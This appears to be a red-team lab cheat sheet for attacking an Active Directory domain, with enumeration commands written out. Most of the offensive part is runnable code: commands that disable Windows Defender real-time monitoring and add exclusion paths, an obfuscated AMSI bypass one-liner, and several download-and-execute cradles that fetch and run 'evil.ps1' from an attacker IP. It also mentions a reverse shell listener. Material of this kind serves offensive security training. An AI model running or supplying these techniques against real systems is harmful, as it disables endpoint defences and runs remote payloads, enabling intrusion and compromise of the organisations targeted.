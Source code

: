 # Domain Controller - Basic Information & Privilege Checking

**Important Note:**  
Please remember to turn off or add an exception to your VM's firewall when running a listener for a reverse shell.

### FQDN and Privilege Checking:

To check the Fully Qualified Domain Name (FQDN) and privilege settings, you can use the following PowerShell commands:

```powershell
PS C:\Users\student157> [System.Net.Dns]::GetHostByName(($env:computerName))  # FQDN
net localgroup administrators /domain
cmd /c "hostname & whoami & ipconfig & net localgroup administrators"
cmd /c "hostname & whoami & ipconfig & Whoami /priv"
```

To check privileges:

```powershell
PS C:\Users\student157> whoami /priv
```

**Sample Output:**

```
Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

### Hostname and Network Configuration:

```powershell
PS C:\Users\student157> hostname
PS C:\Users\student157> ipconfig
```

---

# Native Executables and .NET Classes

You can retrieve information about the current domain using the .NET classes as follows:

```powershell
PS C:\Users\student157> $ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
PS C:\Users\student157> $ADClass::GetCurrentDomain()
```

**Sample Output:**

```
Forest                          : moneycorp.local
DomainControllers                : {dcorp-dc.dollarcorp.moneycorp.local}
Children                         : {us.dollarcorp.moneycorp.local}
DomainMode                       : Unknown
DomainModeLevel                 : 7  # Function level of the current domain (Windows Server 2016)
Parent                           : moneycorp.local
PdcRoleOwner                     : dcorp-dc.dollarcorp.moneycorp.local
RidRoleOwner                     : dcorp-dc.dollarcorp.moneycorp.local
InfrastructureRoleOwner          : dcorp-dc.dollarcorp.moneycorp.local
Name                             : dollarcorp.moneycorp.local  # Current child domain
```

---

# Command Execution and Help System

PowerShell provides various methods for getting help with commands and modules. You can use the following to explore the available help system:

```powershell
# Get help for Get-NetGroup command
get-help Get-NetGroup

# Get examples for Get-NetGroup
get-help Get-NetGroup -examples

# Get detailed help
get-help Get-NetGroup -full
get-help Get-NetGroup -detailed

# Show the command details
show-command Get-NetGroup

# Update help system
Update-Help
```

**Sample Output for `get-help Get-NetGroup`:**

```powershell
SYNTAX
    Get-NetGroup [[-GroupName] <String>] [[-SID] <String>] [[-UserName] <String>] [[-Filter] <String>] [[-Domain] <String>]
    [[-DomainController] <String>] [[-ADSpath] <String>] [-AdminCount] [-FullData] [-RawSids] [-AllTypes] [[-PageSize]
    <Int32>] [[-Credential] <PSCredential>] [<CommonParameters>]
```

---

# ExclusionPath and Bypass AMSI

To disable real-time monitoring or bypass AMSI (Antimalware Scan Interface), you can use the following techniques:

```powershell
# Disable Real-Time Monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Bypass Execution Policy
powershell -ep bypass

# Add Exclusion Path
powershell -inputformat none -outputformat none -NonInteractive -Command "Add-MpPreference -ExclusionPath 'C:\AD'"

# Example script execution bypass
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference = "bypass"
```

**AMS bypass example using a variable:**

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U"" +""zX"" ) -VaL ).""A`ss`Embly"".""GET`TY`Pe""(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) ).""g`etf`iElD""( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' )).""sE`T`VaLUE""( ${n`ULl},${t`RuE} )
```

---

# PowerShell Module

To import and use modules in PowerShell, you can use the following:

```powershell
# Import a module
Import-Module <module_path>  # (.dll or .psd1 file)

# List all commands in a module
Get-Command -Module <modulename>
```

**Example:**

```powershell
PS C:\AD\Tools\ADModule-master\ADModule-master> Import-Module .\Microsoft.ActiveDirectory.Management.dll
PS C:\AD\Tools\ADModule-master\ADModule-master> Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

---

# Download and Execute Scripts

To download and execute PowerShell scripts from the internet, use the following methods:

```powershell
# Download and execute using IEX
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

# Using Internet Explorer COM Object
$ie = New-Object -ComObject InternetExplorer.Application
$ie.visible = $False
$ie.navigate('http://192.168.230.1/evil.ps1')
sleep 5
$response = $ie.Document.body.innerHTML
$ie.quit()
iex $response

# Using PowerShell V3 and later
iex (iwr 'http://192.168.230.1/evil.ps1')

# Using MSXML2.XMLHTTP COM Object
$h = New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://192.168.230.1/evil.ps1',$false)
$h.send()
iex $h.responseText

# Using WebRequest
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader] ($r.GetResponseStream())).ReadToEnd()
